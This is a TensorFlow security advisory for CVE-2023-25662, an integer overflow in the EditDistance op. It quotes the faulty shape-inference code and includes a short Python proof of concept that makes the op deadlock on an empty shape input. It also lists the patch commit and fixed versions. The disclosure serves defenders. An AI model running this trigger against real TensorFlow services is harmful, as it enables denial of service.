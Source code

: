 ## TFSA-2023-014: Integer overflow in EditDistance

### CVE Number
CVE-2023-25662

### Impact
TFversion 2.11.0 //tensorflow/core/ops/array_ops.cc:1067 const Tensor* hypothesis_shape_t = c->input_tensor(2); std::vector<DimensionHandle> dims(hypothesis_shape_t->NumElements() - 1); for (int i = 0; i < dims.size(); ++i) { dims[i] = c->MakeDim(std::max(h_values(i), t_values(i))); }

if hypothesis_shape_t is empty, hypothesis_shape_t->NumElements() - 1 will be integer overflow, and the it will deadlock
```python
import tensorflow as tf
para={
    'hypothesis_indices': [[]],
    'hypothesis_values': ['tmp/'],
    'hypothesis_shape': [],
    'truth_indices': [[]],
    'truth_values': [''],
    'truth_shape': [],
    'normalize': False
    }
tf.raw_ops.EditDistance(**para)
```

### Patches
We have patched the issue in GitHub commit [08b8e18643d6dcde00890733b270ff8d9960c56c](https://github.com/tensorflow/tensorflow/commit/08b8e18643d6dcde00890733b270ff8d9960c56c).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx